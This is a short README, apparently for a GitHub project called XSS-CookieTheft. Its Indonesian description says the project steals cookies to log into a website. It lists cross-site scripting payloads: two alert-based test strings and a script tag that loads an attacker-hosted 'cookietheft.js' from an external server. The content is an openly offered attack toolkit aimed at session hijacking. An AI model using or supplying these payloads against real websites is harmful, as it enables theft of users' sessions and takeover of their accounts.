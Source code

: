 # XSS-CookieTheft
Maling cookie untuk login ke sebuah website. Sesuaikan dengan Database yang kalian miliki.

## XSS Payload
### Basic
`<img src="x" onerror="alert('XSS')">`
`<script>alert('XSS')</script>`
### External JavaScript
`<script src="http://localhost:8089/attacker/cookietheft.js"></script>`
